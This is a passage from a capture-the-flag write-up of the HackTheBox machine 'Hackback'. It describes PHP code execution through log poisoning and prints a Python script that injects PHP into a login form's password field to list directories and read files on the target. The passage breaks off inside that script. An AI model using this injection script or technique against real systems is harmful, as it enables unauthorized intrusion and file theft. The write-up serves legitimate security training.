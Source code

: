 I checked the logs and saw that my PHP was executed:

![](/assets/images/htb-writeup-hackback/confirm_php_rce.png)

Adding a bunch of PHP code in the same log file can get pretty messy when testing multiple payloads so I clean up the log file everytime I test different payloads by first calling the `init` action to reset the log file.

I tried unsuccessfully to get a reverse shell but realized that all the common functions used for RCE appeared to be blocked. There's also an outbound firewall configured on the box so we can't get a connection back.

Listing files and directories wasn't blocked and I could also read files. I wrote a script that does the following:

- Cleans up the logfile by calling the `init` action
- If only one parameter is specified, it'll use the `scandir` function to list the directory contents
- If two parameters are specified, it'll read the directory + file with the `file_get_contents` function

Warning, bad python code below:

```python
#!/usr/bin/python

import base64
import requests
import sys

# Clean up the log file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=init&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79");
print r.status_code

if len(sys.argv) == 2: # List directories
	data = {
		"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
		"username": "test@test.com",
		"password": "<?php print_r(scandir('%s')); ?>" % sys.argv[1],
		"submit": ""
	}
	r = requests.post("http://www.hackthebox.htb", data=data)
	print r.status_code

	# Get output
	r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79", allow_redirects=False);
	print r.text

elif len(sys.argv) == 3: # Fetch a file	
	data = {
		"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
		"username": "test@test.com",
		"password": "<?php echo(file_get_contents('%s')); ?>" % (sys.argv[1]+'/'+sys.argv[2]),
		"submit": ""
	}
	r = requests.post("http://www.hackthebox.htb", data=data)
	print r.status_code

	# Get output
```
